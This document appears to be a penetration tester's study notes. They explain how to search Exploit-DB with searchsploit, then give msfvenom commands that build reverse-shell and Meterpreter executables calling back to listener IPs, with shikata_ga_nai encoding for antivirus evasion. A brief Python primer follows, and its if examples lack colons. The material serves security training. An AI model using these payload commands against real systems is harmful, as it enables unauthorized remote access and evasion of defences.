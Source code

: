 # Exploitation

## SearchSploit - Exploit Database search utility

This tool searches Exploitdb.com and allows the download of offline copies of the exploits found.  This is provided by default in Kali distros.

### Install & Updating

This is already installed on Kali Linux, but you can install it with these commands:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Make sure to update your package to get the most up to date archives:

```bash
searchsploit -u
```

### Storage

- Files are stored in `/usr/share/exploitdb/` 

- The exploits directory divides exploits by OS, architecture, and scripting language.

### Searching

Use the searchsploit utility to search through the archives and display results based on search terms.

```bash
# Search for an exploit by keyword(s)
searchsploit [options] term1 term2...
-w	# Show URL's to Exploit-DB.com rather than the local path
-t	# Search JUST the xploit title (default is title and file's path)

# Examples
searchsploit remote smb microsoft windows
```

Results show two columns by default: the Exploit Title and the Path. 

![image-20220215225418284](.5.Vulnerabilities-Exploitation.assets/image-20220215225418284.png)

- The Exploit Title is a short description of the exploit.  You can preview the exploit to get more details.
- The Path describes the path on ExploitDB.com that could be used to load it in a web browser.  The number corresponds to the ExploitDB ID given to the exploit. 
- The extension shown in the path indicates what language the exploit is written in (Ex:  py = Python)

#### Strict Searches

By default, searchsploit does fuzzy searching to match related items, but for multiple terms this can produce a lot of irrelevant results.  To make it use exactly the terms specified, use the strict search option:

```bash
searchsploit -s TERM1 TERM2
```

#### Exclude terms:

```bash
searchsploit TERM --exclude="NOTHIS|ORTHIS|THISEITHER"
```

### Preview an Exploit

To see details on an exploit:

```bash
searchsploit -x NAME/NUMBER
```

### Downloading an Exploit

Use searchsploit to mirror the exploit:

```bash
searchsploit -m NAME/NUMBER

# Options
# You can specify the exploit by its number (no extension) or the path to the code
```

## Metasploit Framework Venom

This can be run from Bash or from Metasploit.  In MSF, you can use the `msfvenom` command or the `generate` command from within a payload.

### Creating a Payload

The basic formula for creating a payload with msfvenom is:

1. Choose a payload type (this should match whatever application and OS you are targeting)

   ```bash
   # Show all payloads
   msfvenom -l payloads  # You will probably want to grep this output because it's a LONG list
   ```

2. Specify options for the payload (for instance, a reverse shell requires the IP and Port the target should connect back to)

   ```bash
   # Show all options for a payload
   msfvenom -p YOUR_PAYLOAD --list-options
   
   # NOTE: Some older versions of msfvenom use --payload-options instead
   ```

3. Specify a format to create the payload in

   ```bash
   # Show all output options
   msfvenom -l formats
   ```

4. Specify an output file (without this, it will dump the payload to the screen for some options)

5. (OPTIONAL) You can also encode the payload to avoid antivirus.

   ```bash
   # Show all encoders
   msfvenom -l encoders
   ```

### Executable Files

#### Unencoded Executables

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.119.216 LPORT=8000 -f exe -o shell_reverse.exe

# Options
--platform # OS target
-a # CPU architecture (x86 or x64)
-p	# Payload
-f	# Format
-o	# Output filename
```

#### Encoded Executables

Encoding is normally used to bypass character limitations but also serves as a rudimentary AV evasion technique.  More encoding iterations can be used to evade signature detection.

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.119.216 LPORT=8000 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse.exe

# Options
-e	# Encoder to use
-i	# Number of encoding iterations
```

HINT:  x86\shikata_ga_nai is the best

### msfvenom Cheat Sheets

Windows x86 Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 --platform windows -a x86 -f exe -o win_revtcp_8000.exe
```

Windows x64 Reverse TCP Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format exe -o win_revtcp_8000.exe
```

Linux Meterpreter Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhttp_8001.elf
```

Linux Reverse TCP Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhtt_8000.elf
```

### Links & More Cheat Sheets

https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/

https://netsec.ws/?p=331

# Coding

## Python3 Scripts

This website is an excellent source of information for Python programming:  https://www.w3schools.com/python/default.asp

### Usage

Python is an interpreted programming language, which means code is run directly from files fed into the python interpreter to execute.  Python also has an interactive interpreter where you can enter code line by line directly.

The general syntax to run code in a file is:

```python
python myfile.py
# or
py myfile.py
```

To access the interpreter prompt, simply omit the filenames:

```python
python
# or
py
```

This will bring you to a `>>>` prompt to let you know it is ready to receive your code.  To exit the prompt, type:

```python
# Exit interactive interpreter
exit()
```

### Indention Sensitivity

Python is INDENT SENSITIVE.  You will notice that there are no braces or ending statements to delineate blocks of code.  This is because grouping is handled by indentions.

There is no set amount of spaces or tabs, it just has to be indented at least one space, and it has to be consistent for that block of code.

```python
# This is okay
if 1 > 2
	<This is part of the if>
	<so is this>
<not part of if>

# This is not okay, inconsistent spaces within code block
if 1 > 2
 <This is part of the if>
  <so is this>
<but not this>
```
